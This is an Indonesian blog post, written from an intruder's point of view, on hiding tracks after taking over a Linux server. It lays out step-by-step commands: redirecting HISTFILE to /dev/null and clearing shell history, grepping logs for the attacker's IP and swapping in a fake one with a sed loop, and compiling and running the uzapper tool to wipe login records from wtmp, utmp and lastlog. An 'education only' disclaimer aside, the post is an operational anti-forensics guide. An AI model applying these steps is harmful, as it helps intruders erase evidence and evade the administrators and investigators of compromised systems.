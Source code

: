 ```yaml
---
layout: post
title: Covering Track! Menjadi Hantu pada Linux Server
categories: [Covering Track]
author: Novran Faathir
---
```


Sesuatu hal yang "SULIT TERDETEKSI" itu memanglah menarik, sama seperti melakukan Covering Tracks.

**Covering Track adalah** upaya untuk menghilangkan jejak setelah melakukan penyerangan terhadap aplikasi maupun Server.

Pada dasarnya seorang Administrator itu akan selalu berurusan dengan yang namanya Log File dan tentunya sebagai Attacker pun harus menghindar dari Log File tersebut.

### REMEMBER: For Education Purpose Only!

Artikel ini hanya untuk pembelajaran saja dan untuk kedepannya mungkin kami akan menulis tentang solusi untuk `Anti Covering Track`-nya juga.

Peran kita disini yaitu sebagai "Attacker" yang sudah melakukan Take-over sebuah Server yang menggunakan sistem operasi Linux, kemudian kita masuk kedalam Shell dari Server tersebut.

# BASH History

**HISTFILE**

HISTFILE adalah sebuah Environment Variable pada Linux yang digunakan untuk mengarahkan sebuah file history yang berisi command-command yang sebelumnya sudah pernah dieksekusi oleh User.

```
user1@linux:~$ echo $HISTFILE
/home/user1/.bash_history
```

```
user1@linux:~$ cat /home/user1/.bash_history
sudo apt-get clean
sudo vi /etc/apt/sources.list
sudo apt-get update
...
```

Supaya aktifitas kita sebagai Attacker tidak tercatat, lebih baik kita arahkan ke `/dev/null`.
```
user1@linux:~$ HISTFILE=/dev/null
user1@linux:~$ echo $HISTFILE
/dev/null
```

Namun ada langkah frustasi, kalau kita lupa mengarahkan BASH History sebelumnya (di-awal).

**Clean History**

```
user1@linux:~$ history -c
```

# Clean Your Public IP from Log File

Hal ini dapat dilakukan kalau kalian memiliki hak akses level "root" karena disini kita akan memanipulasi Log File tentunya.

Pertama-tama ketahuilah IP Public kita sendiri, kita dapat melihatnya melalui website:

<https://www.whatismyip.com/>

**Mencari Log File yang mencatat IP kita**

```
root@linux:~# grep -Rn 'YOUR IP' /var/log/ 2> /dev/null
```

Atau gunakan command di bawah ini untuk mencari LOG keseluruhan (dari root):

```
root@linux:~# grep -Rn 'YOUR IP' / 2> /dev/null
```

**NOTE:** Ubah `YOUR IP` menjadi IP Address kalian.

**Manipulasi IP Address pada Log File**

`Mengapa tidak dihapus saja LOG-nya?`

Jika Log File kita hapus, itu adalah tindakan yang gegabah dan tidak menutup kemungkinan `Administrator` akan melakukan eskalasi ke pihak `Provider`.

**Manipulasi Log**

Disini kita akan menggunakan perintah `sed`.

Contoh:
```
root@linux:~# sed 's/KATA ASLI/KATA GANTI/g' file
```

Supaya lebih cepat memanipulasi IP, kita jadikan script seperti di bawah ini:

```
for LOGFILE in $(grep -Rn 'YOUR IP' / 2> /dev/null | awk -F ':' '{print $1}' | sort -V | uniq)
do
sed 's/YOUR IP/FAKE IP/g' $LOGFILE
done
```

# Stealth from WTMP, UTMP, and Lastlog

- WTMP = mencatat setiap ada yang login/logoff
- UTMP = mencatat siapa yang sedang melakukan akses saat ini
- Lastlog = mencatat source address user yang melakukan login terakhir

**Uzapper Tool**

Tool ini digunakan untuk menghapus log umum pada sistem operasi Solaris, SunOS, IRIX, Linux, FreeBSD.

Kalian dapat unduh pada link di bawah ini:

- <https://packetstormsecurity.com/files/16378/uzapper.c.html>

Untuk melihat siapa yang sedang masuk dan melihat apa yang sedang mereka lakukan (berdasarkan sesi), kalian dapat menggunakan perintah `w`.

```
root@linux:~# w
1:23am up 6:21, 2 users, load average: 0.00, 0.01, 0.02
  User  tty   FROM login@ idle JCPU  PCPU  what
  root  pts/1 :0   2:21am 1    22:39 1.48s w
  user1 pts/2 ???  2:52am 1                -sh
```

Compile Uzapper:
```
root@linux:~# gcc uzapper.c -o uzapper
```

Jalankan Uzapper:
```
root@linux:~# ./uzapper user1
```

Periksa kembali sesi yang aktif:
```
root@linux:~# w
1:23am up 6:21, 2 users, load average: 0.00, 0.01, 0.02
  User  tty   FROM login@ idle JCPU  PCPU  what
  root  pts/1 :0   2:21am 1    22:39 1.48s w
```

**user1** hilang, karena sudah di-wipe menggunakan Uzapper.

# Done!
Artikel tentang Covering Track ini hanya untuk pelajaran saja, pasti banyak yang bertanya-tanya:

```
Kenapa gak pake VPN aja? Biar gak ribet!
```

Silakan dijawab sendiri :)

Terima kasih.

Semoga artikel yang membahas tentang `Covering Track` akan terus berlanjut.
